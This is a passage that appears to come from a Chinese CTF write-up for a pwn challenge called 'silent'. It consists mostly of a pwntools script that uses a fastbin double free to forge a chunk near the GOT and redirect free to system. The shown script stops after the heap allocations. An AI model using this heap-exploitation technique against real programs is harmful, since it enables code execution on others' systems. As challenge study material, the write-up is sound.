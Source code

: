```python
```

### pwn - silent

非常传统的house of sprit改got

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process('./silent')
	bin = ELF('./silent')
else:
	cn = remote('39.107.32.132', 10000)
	bin = ELF('./silent')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def sd(s):
	sleep(0.1)
	cn.send(s)

def sl(s):
	sleep(0.1)
	cn.sendline(s)

def add(size,con):
	sl('1')
	sl(str(size))
	sd(con)

def free(idx):
	sl('2')
	sl(str(idx))

def edit(idx,con,con2):
	sl('3')
	sl(str(idx))
	sd(con)
	sd(con2)

system_plt=0x400730
free_got=0x602018

fake=0x601ffa

cn.recvuntil('\n\n')
add(0x50,'a')#0
add(0x50,'b')#1
free(0)
free(1)
free(0)
add(0x50,p64(0x601ffa))#2
add(0x50,'b')#3
add(0x50,'b')#4
```